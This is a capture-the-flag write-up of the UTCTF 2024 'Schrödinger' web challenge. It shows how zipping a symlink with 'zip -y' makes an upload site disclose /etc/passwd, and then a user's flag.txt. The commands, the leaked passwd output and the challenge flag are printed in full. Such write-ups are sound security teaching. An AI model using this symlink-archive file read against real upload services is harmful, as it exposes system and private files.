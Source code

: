 ```yaml
---
title: "Schrödinger"
description: "Hey, my digital cat managed to get into my server and I can't get him out."
points: 314
solves: 250
date: April 1 2024
author: Jozef Steinhübl
---
```


In this task, we need to find `flag.txt` by uploading the zip via the website.

![schrödinger](https://raw.githubusercontent.com/GerlachSnezka/utctf/main/assets/2024-web-schrodinger.png)

Since in the task, there's that flag.txt is located in the home folder, it will probably be in `home/<user>/flag.txt`

Although we don't know the user's name, we can still get it. If you're more proficient with Linux, you know that `/etc/passwd` contains all the users. So we can zip a file that is not a pure file or folder, but a symlink to /etc/passwd. With this, the web will then return the file's content to us.

```sh
ln -s "/etc/passwd" link
zip -y payload.zip link # use -y to don't save our /etc/passwd
```

We'll get:
```
---------------link---------------

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
copenhagen:x:1000:1000::/home/copenhagen:/bin/sh
```

In the very last line, we see `copenhagen:x:1000:1000:1000::/home/copenhagen:/bin/sh`, indicating that the cat is named `copenhagen`

We can create symlink again and this time to `/home/copenhagen/flag.txt`
```sh
ln -s "/home/copenhagen/flag.txt" link
zip -y payload.zip link # use -y to don't save our /etc/passwd
```

And we get our dream flag:
```
utflag{No_Observable_Cats_Were_Harmed}
```